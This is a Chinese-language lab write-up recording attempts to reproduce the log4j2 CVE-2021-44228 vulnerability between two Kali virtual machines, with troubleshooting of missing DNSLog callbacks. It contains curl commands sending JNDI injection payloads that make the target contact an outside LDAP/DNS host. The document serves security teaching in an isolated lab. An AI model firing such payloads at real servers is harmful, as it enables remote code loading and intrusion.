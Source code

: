 # log4j2漏洞实验-dnslog无解析记录-尝试解决过程记录

## 实验环境

* VirtualBox 虚拟机 7.0.14
* 主机配置：

| 主机 | 系统版本 | ip地址 |
| ----- | ----- | ----- |
| kali-victim | kali-linux-2024.2 | 192.168.146.8 |
| kali-attacker | kali-linux-2024.2 | 192.168.146.11 |

* java decompiler：JD-gui-1.6.6
* [CEYE](http://ceye.io/)

## 问题描述与尝试解决

- 复刻课件步骤时，尝试如下语句

```
# 使用CEYE DNSLog平台提供的子域名ot74e2.ceye.io
curl -X POST http://192.168.146.8:11002/hello -d payload='"${jndi:ldap://ot74e2.ceye.io/exp}"'
```

- 报错显示不支持```POST```请求

![](./pic/目标网页不支持post请求.jpg)

- 使用```Java Decompiler```反编译容器内拉出的源码，可以看到与课件内不同，实验中实际使用的漏洞代码为```Getmapping```方法而非课件中的```Postmapping```方法

![](./pic/源码不一致.jpg)

- 于是尝试改为用```GET```方法发包：

```
curl -X GET http://192.168.146.8:11002/hello -d payload='"${jndi:ldap://ot74e2.ceye.io}"'
```

- 回显```OK```，但查看·``平台并没有解析记录

![](./pic/使用get发包，但仍无解析记录.jpg)

- 参考了[【Vulfocus漏洞复现】log4j2-cve-2021-44228](https://blog.csdn.net/weixin_45632448/article/details/124149561)，尝试使用```--data-urlencode```参数对```payload```进行编码，让特殊符号绕过目标服务器的检测，同时使用```-v```参数使其输出详细信息

![](./pic/url编码但仍无解析记录.jpg)

- 可以看到```payload```部分已经编码，回显```ok```但仍无解析记录

- 参考第一个答辩的小组分享，尝试修改一些参数。即```payload```替换为```test```，```ldap```替换为```dns```等

- 第一次尝试性实验时成功出现一次解析记录

![](./pic/修改参数，尝试过程中首次出现解析记录.png)

- 但第二次使用相同语句进行实验时，又不再出现解析记录了。猜测可能是目标网页会过滤掉重复请求（？）或是其他网络问题

![](./pic/再次发包，不出现解析记录.jpg)

## 参考链接

[1] [【Vulfocus漏洞复现】log4j2-cve-2021-44228](https://blog.csdn.net/weixin_45632448/article/details/124149561)